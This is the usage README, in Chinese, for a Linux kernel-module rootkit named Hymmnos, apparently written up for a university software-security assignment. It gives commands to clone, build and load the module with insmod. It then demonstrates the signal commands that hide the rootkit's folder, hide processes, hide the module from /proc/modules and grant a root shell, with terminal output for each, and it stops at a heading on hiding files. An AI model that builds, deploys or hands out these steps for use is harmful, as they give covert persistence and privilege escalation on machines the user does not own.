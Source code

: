 ## 使用文档

### **构建**



1. 克隆源代码

   ```bash
   $ cd ~
   $ git clone https://github.com/flysoar/Hymmnos-rootkit.git
   ```



2. 从源码构建

   ```bash
   $ cd Hymmnos-rootkit
   $ make
   ```


3. 加载入内核

   ```bash
   $ sudo insmod hymmnos.ko
   ```



### **使用**

- 隐藏文件夹自身 —— 将源代码文件夹改名为 *hymmnos*。

  ```bash
  $ cd ..
  $ mv Hymmnos-rootkit/ hymmnos/
  ```

![hide_document_after](C:\Users\hhhgu\Desktop\学习资料\软件安全原理\第二次作业\Hymmnos-rootkit\screenshot\hide_document_after.png)![hide_document_before](C:\Users\hhhgu\Desktop\学习资料\软件安全原理\第二次作业\Hymmnos-rootkit\screenshot\hide_document_before.png)



- 隐藏特定进程

  1. 未隐藏进程之前

     ```bash
     $ ps aux | grep hymmnos
     ```

     返回

     ```bash
     henry     3436  0.0  0.0  21536  1028 pts/0    S+   13:20   0:00 grep --color=auto hymmnos
     ```

  2. 隐藏进程（kill -49 命令）

     ```bash
     $ top
     $ ps aux | grep top
     henry     1593  0.0  1.4 813092 57416 tty2     Sl+  11:33   0:01 nautilus-desktop
     henry     3496  1.3  0.0  48940  3772 pts/0    S+   13:32   0:00 top
     henry     3518  0.0  0.0  21536  1136 pts/1    S+   13:33   0:00 grep --color=auto top
     $ kill -49 3496
     $ ps aux | grep top
     henry     1593  0.0  1.4 813092 57416 tty2     Sl+  11:33   0:01 nautilus-desktop
     henry     3520  0.0  0.0  21536  1064 pts/1    S+   13:33   0:00 grep --color=auto top
     ```

  3. 恢复进程（卸载模块）

     ``` bash
     $ sudo rmmod hymmnos
     $ ps aux | grep top
     henry     1593  0.0  1.4 813092 57416 tty2     Sl+  11:33   0:01 nautilus-desktop
     henry     3496  1.3  0.0  48940  3772 pts/0    S+   13:32   0:05 top
     henry     3581  0.0  0.0  21536  1008 pts/1    S+   13:39   0:00 grep --color=auto top
     ```

- 隐藏模块

- 1. 隐藏 *hymmnos* 模块（kill -50 7 命令）

     ```bash
     $ cat /proc/modules | grep hymmnos
     hymmnos 24576 0 - Live 0x0000000000000000 (OE)
     $ kill -50 7
     $ cat /proc/modules | grep hymmnos
     ```


  2. 恢复 *hymmnos* 模块（kill -50 7 命令）

     ```bash
     $ kill -50 7
     $ cat /proc/modules | grep hymmnos
     hymmnos 24576 0 - Live 0x0000000000000000 (OE)
     ```


- 获取 root 权限（kill -48

  ```bash
  $ kill -48 -3
  $ whoami
  root
  ```


- 隐藏特定文件
